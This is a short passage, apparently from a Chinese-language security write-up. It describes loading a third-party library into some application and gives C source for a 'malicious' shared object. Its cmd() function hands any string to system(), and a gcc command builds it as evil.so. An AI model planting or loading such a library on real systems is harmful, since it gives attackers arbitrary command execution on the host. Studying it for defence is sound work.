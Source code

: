[![](assets/1709112088-434c580ad549440c04ee92fd308ec9ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101051-98d11f72-d5de-1.png)

官方文档中也是给出了我们如何添加第三方 lib 的方法。我们首先需要自己编译生成一个恶意 so 文件。

```plain
#include "evil.h"
#include <stdio.h>
#include <stdlib.h>

char* cmd(char* command) {
system(command);
return "ok";
}
```

evil.h

```plain
#ifndef evil_h_
#define evil_h_

extern char* cmd(char* command);

#endif
```

然后将其编译为恶意的 so 文件。  
`gcc -shared -fPIC evil.c -o evil.so`

[![](assets/1709112088-3e8634b84853104167abad1631ec9d16.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101101-9e97f8ea-d5de-1.png)
